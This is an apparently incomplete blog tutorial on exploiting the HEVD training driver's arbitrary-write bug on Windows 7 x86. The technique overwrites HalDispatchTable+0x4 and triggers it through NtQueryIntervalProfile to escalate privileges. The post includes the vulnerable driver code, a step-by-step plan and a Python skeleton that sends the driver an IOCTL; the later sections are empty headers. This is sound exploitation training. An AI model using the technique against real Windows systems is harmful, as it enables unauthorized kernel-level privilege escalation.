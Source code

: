 ```yaml
---
layout: single
title: HEVD - Windows 7 x86 Kernel Write-What-Where (Arbitrary Write)
---
```


This post covers the HEVD exploitation of overwriting `HalDispatchTable+0x4` and calling `NtQueryIntervalProfile()` to obtain EOP.

Let's get this over with so I can go back to exploring Windows 10 and re-reading Windows Internals along with the new Windows 10 programming book that Pavel is releasing. Arbitrary Overwrites, otherwise can be referred to in this context as Write-What-Where exploitation, or even better, HalDistpatchTable overwrites. This post will focus on exploiting the Arbitrary Write vulnerability in the HEVD driver on a Windows 7 x86 system.

### Write 

If you can gain some kind of arbitrary write in the Windows kernel, you can leverage that for EOP.

### What

The payload that will be written is the say token-stealing shellcode payload that can be run through VirtualAlloc and some ctypes magic to turn it into a pointer, which we can write into a specified memory region.

### Where

This technique will cover the `HalDispatchTable+0x4` exploitation technique, where we will write our shellcode address into the HAL Dispatch table, we will overwrite a Dispatch Table pointer, which we can later call with the `NtQueryIntervalProfile` function. On that note, this post will also be covering some undocumented Windows API function research with WinDBG.

----

### HalDistpatchTable exploitation research & analysis

The HalDispatchTable is responsible for acting as a table which holds function pointers to various HAL routines. The HAL (Hardware Abstraction Layer) is responsible for acting as a software layer between kernel-mode execution and as an interface to hardware (motherboards, CPU, NICs, other devices) and the HAL is located in `hal.dll` which is invoked by `ntoskrnl.exe`

**Our exploitation technqiue**

With our arbitrary write vulnerability, we can write a controlled payload address to a controlled memory location in the kernel. 

With our Arbitrary Write, we need to find a good place to write to. We are going to overwrite a pointer that resides in the HalDispatchTable, specifically we want to utilize the `HalDispatchTable` since we can invoke and call it from a user-mode perspective, we can call aspects of the `HalDispatchTable` via the undocumented function `NtQueryIntervalProfile`

```c++
NTSTATUS 
NtQueryIntervalProfile (
    KPROFILE_SOURCE ProfileSource, 
    ULONG *Interval);
```

which will invoke `nt!KeQueryIntervalProfile` in the kernel which is used to leverage a call to `HalDispatchTable+0x4`. So if we overwrite `HalDispatchTable+0x4` and then invoke the `NtQueryIntervalProfile` function, that acts as a trigger. We can *write* our shellcode payload pointer into KernelLand and have it triggered via a UserLand function call.

So why 0x4 in the HAL Heap table?

As mentioned the `NtQueryIntervalProfile` function makes a direct call to `KeQueryIntervalProfile`, you can see that occuring below.

![hal 1](https://raw.githubusercontent.com/FULLSHADE/FULLSHADE.github.io/master/static/img/_posts/hevd_www4.png)

We can see how the `KeQueryIntervalProfile` function specifically will invoke a call to the 0x4 location of the HAL table.

```c++
ULONG
KeQueryIntervalProfile(
  IN  KPROFILE_SOURCE ProfileSource
  );
```

![hal 2](https://raw.githubusercontent.com/FULLSHADE/FULLSHADE.github.io/master/static/img/_posts/hevd_www1.png)

So when we overwrite 0x4, we can call it from a user-mode function (NtQueryIntervalProfile). 

Our exploitation workflow is as follows

1. Locate the `HalDispatchTable` in the kernel (via the `NtQuerySystemInformation` function)
2. Overwrite `HalDispatchTable+0x4` with our shellcode payload pointer address
3. Calculate and locate the address of `NtQueryIntervalProfile`
4. Call `NtQueryIntervalProfile` and trigger our EOP shell

### The HEVD vulnerability & analysis

```c++
#ifdef SECURE
        // Secure Note: This is secure because the developer is properly validating if address
        // pointed by 'Where' and 'What' value resides in User mode by calling ProbeForRead()
        // routine before performing the write operation
        ProbeForRead((PVOID)Where, sizeof(PULONG_PTR), (ULONG)__alignof(PULONG_PTR));
        ProbeForRead((PVOID)What, sizeof(PULONG_PTR), (ULONG)__alignof(PULONG_PTR));

        *(Where) = *(What);
#else
        DbgPrint("[+] Triggering Arbitrary Overwrite\n");

        // Vulnerability Note: This is a vanilla Arbitrary Memory Overwrite vulnerability
        // because the developer is writing the value pointed by 'What' to memory location
        // pointed by 'Where' without properly validating if the values pointed by 'Where'
        // and 'What' resides in User mode
        *(Where) = *(What);

```

The vulnerability here is being shown really well, the issue is the lack of validation of the two pointers `Where` and `What` on the line `*(Where) = *(What);`. It's not properly validating where the pointer values reside. In the secure version of the function, it's utilizing the `ProbeForRead` function which is a routine that checks that a user-mode buffer is actually residing in the user portion of the address space. 

```c++
void ProbeForRead(
  const volatile VOID *Address,
  SIZE_T              Length,
  ULONG               Alignment
);
```

The provided parameters that are given by this secure function is the address of the beginning of the user-mode buffer the size and length of the buffer, and it's also specifying the required alignment.

### IOCTL discovery & driver communication

For discovering the needed IOCTL, we can use just the provided CTL_MACRO again from the source code of the file.

![ioctl 1](https://raw.githubusercontent.com/FULLSHADE/FULLSHADE.github.io/master/static/img/_posts/hevd_www2.png)

You can use this to calculate the IOCTL.

![ioctl 2](https://raw.githubusercontent.com/FULLSHADE/FULLSHADE.github.io/master/static/img/_posts/hevd_www3.png)

Like always, there are multiple ways to capture and discover IOCTLs, feel free to use IDA for static analysis which leads to IOCTL discovery.

Now that we have the needed IOCTL we can send out skeleton script with a payload to the device driver.

```python
import sys, os
import ctypes, struct
from ctypes import *
 
def arbitrary_overwrite():

    kernel32              = windll.kernel32
    psapi                 = windll.Psapi
    ntdll                 = windll.ntdll

    lpFileName = "\\\\.\HackSysExtremeVulnerableDriver"
    device_handle = kernel32.CreateFileA(lpFileName, 0xC0000000, 0, None, 0x3, 0, None)
 
    if not device_handle or device_handle == -1:
        print("[!] Error creating Device handle:" + ctypes.GetLastError())
        sys.exit()
    else:
        print("[+] Device handler setup successful")
        print("[+] Device handle in use: %s" %lpFileName)
 
    buf = "A"*100
    bufLength = len(buf)
 
    kernel32.DeviceIoControl(device_handle, 0x22200b, buf, bufLength, None, 0, byref(c_ulong()), None)
 
if __name__ == "__main__":
    arbitrary_overwrite()

```

### Get the Base Name and address from ntkrnlpa.exe

To get the base address of ntkrnlpa.exe we can use the EnumDeviceDrivers function


### Overwriting 0x4

### Triggering our shellcode with NtQueryIntervalProfile

### \\(ツ)/  EOP Party!!! \\(ツ)/

